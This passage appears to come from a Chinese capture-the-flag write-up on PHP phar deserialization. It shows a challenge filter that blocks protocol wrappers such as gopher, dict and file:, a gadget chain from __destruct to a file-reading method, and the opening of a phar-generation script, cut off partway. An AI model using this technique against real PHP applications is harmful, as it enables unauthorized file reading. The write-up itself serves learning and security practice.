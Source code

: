 ```prism

    }
    public function __wakeup()
    {
        if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)) {   //Do you know 'Php ARchive'?
            echo "hacker~";
            $this->source = "index.php";
        }
    }

}
?>


```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

反序列化链：

```has-numbering
CNSS::__construct($name)->CNSS::__destruct()->Show::->__toString()->CN55::__invoke()->CN55::_get($key)->CN55::file_get($value)

```

生成phar：

```prism
<?php
class CNSS
{
    public $shino;
    public $shin0;
    public $name;
    public function __construct($name)
    {
        $this->name=$name;
    }

    public function __wakeup()
    {
        $this->shin0 = 'cnss';
        $this->_sayhello();
    }
    public function _sayhello()
    {
        echo ('<h1>I know you are in a hurry, but don not rush yet.<h1>');
    }


    public function __destruct()
    {
        $this->shin0 = $this->name;
        echo $this->shin0.'<br>';
    }
}





class CN55
{
```